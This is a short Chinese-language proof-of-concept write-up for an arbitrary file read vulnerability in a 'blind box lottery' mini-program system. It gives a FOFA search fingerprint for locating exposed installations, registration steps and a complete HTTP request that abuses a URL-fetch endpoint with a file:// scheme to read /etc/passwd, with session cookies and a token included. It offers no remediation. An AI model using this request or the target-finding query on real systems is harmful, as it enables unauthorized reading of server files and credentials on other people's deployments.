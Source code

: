 # 盲盒抽奖小程序系统存在任意文件读取漏洞

# 一、漏洞简介
盲盒抽奖小程序系统存在任意文件读取漏洞

# 二、影响版本
+ 盲盒抽奖小程序系统

# 三、资产测绘
+ fofa

```plain
"vendor/owl.carousel2/assets/owl.carousel.css" && "img/arrow-left.png"
```

+ 特征

![1731491896473-24d5cb3b-d315-42f2-9ec1-1f134e61a755.png](./img/dpPBebsZuuMRaArk/1731491896473-24d5cb3b-d315-42f2-9ec1-1f134e61a755-241134.png)

# 四、漏洞复现
先注册一个账号

```plain
/index/user/register.html
```

![1731491909841-961c0fff-99f9-4dbf-98ac-12b86fdd1ca5.png](./img/dpPBebsZuuMRaArk/1731491909841-961c0fff-99f9-4dbf-98ac-12b86fdd1ca5-628641.png)

```plain
GET /api/user/http_request?url=file:///etc/passwd HTTP/2.0
Host: 
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
cookie: PHPSESSID=6e6b24gm79uba18etg6j1cj3a5
cookie: think_var=zh-cn
cookie: uid=22
cookie: token=44ee3c7f-0b30-4e2d-9357-4442231c49b0
```

![1731491856618-2fb8c5e0-7d17-4677-bc31-70b72099de96.png](./img/dpPBebsZuuMRaArk/1731491856618-2fb8c5e0-7d17-4677-bc31-70b72099de96-714752.png)



> 更新: 2024-11-27 10:00:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/omoxpfzm1rmvt1du>